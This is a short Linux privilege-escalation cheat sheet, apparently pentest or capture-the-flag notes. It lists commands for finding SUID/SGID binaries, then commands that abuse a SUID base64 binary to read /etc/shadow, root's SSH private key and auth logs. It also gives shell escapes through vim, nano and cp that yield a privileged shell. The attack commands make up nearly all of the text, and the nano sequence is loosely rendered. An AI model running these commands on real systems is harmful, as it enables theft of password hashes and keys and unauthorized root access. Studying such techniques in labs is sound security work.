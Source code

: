 ## SUID/SGID Binaries

```bash
# Find SUID files
find / -perm -u=s -type f 2>/dev/null

# Find SGID files
find / -perm -g=s -type f 2>/dev/null

# Both in one command
find / -type f -a \( -perm -u+s -o -perm -g+s \) -exec ls -l {} \; 2>/dev/null
```

## Exploiting Common SUID Binaries

### Using base64 with SUID to read protected files

If base64 has the SUID bit set, it can be exploited to read files that require elevated privileges:

```bash
# Check if base64 has SUID bit
ls -la /usr/bin/base64

# If it does, use it to read sensitive files
/usr/bin/base64 /etc/shadow | base64 --decode
/usr/bin/base64 /root/.ssh/id_rsa | base64 --decode
/usr/bin/base64 /var/log/auth.log | base64 --decode

# Use it to read flag files or other sensitive data
/usr/bin/base64 /root/root.txt | base64 --decode
/usr/bin/base64 /home/user/flag.txt | base64 --decode

# Read password hashes to crack offline
/usr/bin/base64 /etc/shadow | base64 --decode | grep root
/usr/bin/base64 /etc/shadow | base64 --decode | grep admin
```

### Other common SUID exploitation techniques

```bash
# If find has SUID bit
find / -name example -exec whoami \;

# If vim/nano has SUID bit
vim -c ':!/bin/sh'
nano -s /bin/sh
nano
^R^X
reset; sh 1>&0 2>&0

# If cp has SUID bit
cp /bin/sh /tmp/sh
chmod +s /tmp/sh
/tmp/sh -p
```
